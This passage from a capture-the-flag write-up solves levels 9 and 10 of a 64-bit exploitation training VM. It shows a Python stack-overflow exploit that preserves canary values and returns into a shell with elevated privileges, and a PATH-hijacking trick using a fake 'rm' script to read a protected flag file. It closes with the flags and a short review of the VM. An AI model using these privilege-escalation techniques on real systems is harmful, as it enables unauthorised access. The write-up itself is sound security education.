 Here's the exploit:

```
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*40
buf += "\xef\xbe\xad\xde"
buf += "\xef\xbe\xad\xde"
buf += "A"*(56 - len(buf))
buf += pack("<Q", 0x7fffffffeea6)

open("in.txt", "w").write(buf)
```

And finally, getting the flag by passing in.txt into chall9:

```
n00b@64bitprimer:~/level9$ (cat /tmp/l9/in.txt ; cat) | ./chall9
Inject buffer dude, but watch out for the birds.
#loser
id
uid=1017(n00b) gid=1017(n00b) euid=1009(level9) groups=1009(level9),1017(n00b)
cat flag-level9
flag{b3_c4r3ful_sm4sh1ng_th3_st4ck_y0u_m1ght_k1ll_th3_c4nar1es_t00}
```

## Level 10

We're given a binary that drops us into some kind of shell. The shell supports several commands, but the one command that drew my interest was the doExit() function. 

```
│           0x00400af2      bfd9154000     mov edi, str.rm__tmp_history ; "rm /tmp/history" @ 0x4015d9
│           0x00400af7      e8c4fcffff     call sym.imp.system
```

Here it's calling system("rm /tmp/history") without passing an absolute path to system(). This meant I could modify my PATH environment variable to run my own script called /tmp/rm that would read the contents of flag-level10

```
n00b@64bitprimer:~/level10$ export PATH=/tmp:${PATH}
n00b@64bitprimer:~/level10$ cat /tmp/rm
#!/bin/dash
cat /opt/challenges/level10/flag-level10
```

Finally, running chall10 and exiting returns the flag:

```
n00b@64bitprimer:~/level10$ ./chall10
pwnsh> exit
flag{pwnsh_1snt_4s_s4fe_4s_1t_s0unds}
We hoped you enjoy your experience with pwnsh!
Thank you, and remember, stay civil folks.
Goodbye, n00b.
```

And that's it. Good VM with some potential, but ultimately hampered by some bugs. I hope the final version makes it out online all fixed up, and I'd be interested to give it another go then. 
